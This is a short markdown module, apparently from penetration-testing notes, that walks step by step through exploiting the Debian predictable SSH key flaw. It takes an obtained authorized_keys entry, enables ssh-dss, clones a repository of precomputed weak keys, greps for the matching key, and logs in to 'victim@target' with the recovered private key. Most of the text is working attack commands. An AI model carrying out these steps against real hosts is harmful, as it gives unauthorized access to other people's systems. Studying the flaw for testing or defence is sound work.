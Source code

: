 # SSH Key Exploit Process
This module describes how to attempt to use an obtained authorized_keys file on a host system. 
1. Get the authorized_keys file. An example of this file would look like so:

`ssh-dss AAAA487rt384ufrgh432087fhy02nv84u7fg839247fg8743gf087b3849yb98304yb9v834ybf ... (snipped) ... `

2. Since this is an ssh-dss key, we need to add that to our local copy of `/etc/ssh/ssh_config`:

`PubkeyAcceptedKeyTypes +ssh-dss`

3. Get [g0tmi1k's debian-ssh repository](https://github.com/g0tmi1k/debian-ssh) and unpack the keys:

`git clone https://github.com/g0tmi1k/debian-ssh`

`tar vjxf debian-ssh/common_keys/debian_ssh_dsa_1024_x86.tar.bz2`

4. Grab the first 20 or 30 bytes from the key file shown above starting with the `"AAAA..."` portion and grep the unpacked keys with it as:

`grep -lr 'AAAA487rt384ufrgh432087fhy02nv84u7fg839247fg8743gf087b3849yb98304yb9v834ybf' `

Note, if there are plus symbols stop at the them as we don't want `grep` to attempt to interpret them as quantifiers (regexp).

5. IF SUCCESSFUL, this will return a file (84739yufh987fg38fg39847fg38fg3f34f.pub) public file. To use the private key file to connect, drop the '.pb' extension and do:

`ssh -vvv victim@target -i 84739yufh987fg38fg39847fg38fg3f34f`

And you should connect without requiring a password. If stuck, the `-vvv` verbosityu should provide enough details as to why.
